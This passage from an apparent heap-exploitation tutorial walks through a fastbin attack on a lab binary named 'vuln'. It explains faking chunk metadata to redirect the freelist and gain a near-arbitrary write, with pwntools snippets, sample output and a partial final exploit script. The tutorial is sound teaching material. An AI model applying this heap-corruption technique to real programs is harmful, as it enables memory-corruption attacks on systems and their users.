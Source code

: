 The reason we have to subtract 8 off `fakemetadata` is that the only thing we faked in the souce is the `size` field, but `prev_size` is at the very front of the chunk metadata. If we point the fastbin freelist at the `fakemetadata` variable it'll interpret it as `prev_size` and the 8 bytes afterwards as `size`, so we shift it all back 8 to align it correctly.

![](<../../../.gitbook/assets/image (32).png>)

Now we can control where we write, and we know where to write to.

### Getting the Arbitrary Write

First, let's replace the location we write to with where we want to:

```python
create(p64(fake_metadata))
```

Now let's finish it off by creating another user. Since we control the fastbin, this user gets written to the location of our fake metadata, giving us an almost arbitrary write.

```python
create('\x00' * 8 + 'admin\x00')
complete()
```

{% hint style="info" %}
The 8 null bytes are padding. If you read the source, you notice the metadata string is 16 bytes long rather than 8, so we need 8 more padding.
{% endhint %}

```
$ python3 exploit.py
[+] Starting local process 'vuln': pid 8296
[+] Fake Metadata: 0x602088
b'Level Complete!\n'
```

Awesome - we completed the level!

## Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()


def create(name='a'):
    p.sendlineafter('>> ', '1')
    p.sendlineafter('Name: ', name)

def delete(idx):
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Index: ', str(idx))

def complete():
    p.sendlineafter('>> ', '3')
    print(p.recvline())

p.recvuntil('data: ')
fake_metadata = int(p.recvline(), 16) - 8

log.success('Fake Metadata: ' + hex(fake_metadata))

create('yes')
create('yes')
delete(0)
```